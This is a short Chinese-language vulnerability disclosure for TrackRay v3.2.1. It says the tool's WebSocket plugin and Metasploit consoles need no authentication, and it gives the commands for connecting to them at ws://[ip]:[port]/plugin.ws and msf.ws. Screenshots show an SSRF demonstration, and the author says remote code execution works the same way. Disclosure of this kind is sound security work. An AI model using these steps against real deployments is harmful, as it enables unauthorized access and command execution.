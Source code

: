 # 溯光（TrackRay）3.2.1 未授权RCE

## Target & Version
项目地址：https://github.com/iSafeBlue/TrackRay  

版本：v3.2.1

## Background
扫github的时候看到的这个项目，虽然有900+个 stars，感觉不咋火。
其中首页注意中的一句话吸引了我  
![-w710](media/15909787372321/15911725266740.jpg)

本着日行一善的原则，决定帮它火一把。

## Exp
TrackRay的两个交互式控制台，用WebSocket实现
![-w1411](media/15909787372321/15911724359679.jpg)
WebSocket未做任何授权认证，所以这两个console就是白给。利用方式很简单  

exp：
```
# 安装websockets
pip3 install websockets
# 连接 plugin console
python3 -m websockets ws://[ip]:[port]/plugin.ws
# 连接 msf consle
python3 -m websockets ws://[ip]:[port]/msf.ws
```

## Poc
由于我的msfrpcd始终没有配置成功，这里就懒得折腾，演示一个利用 plugin console 实现未授权ssrf的效果，rce也是一样，不过连的是 msf console。  

连接 plugin consle
![-w1120](media/15909787372321/15911181426135.jpg)

寻找所有可用插件，使用默认提供的crawlergoScan
![-w1440](media/15909787372321/15911181721229.jpg)

ssrf
![-w1440](media/15909787372321/15911182142090.jpg)

![-w964](media/15909787372321/15911182371403.jpg)


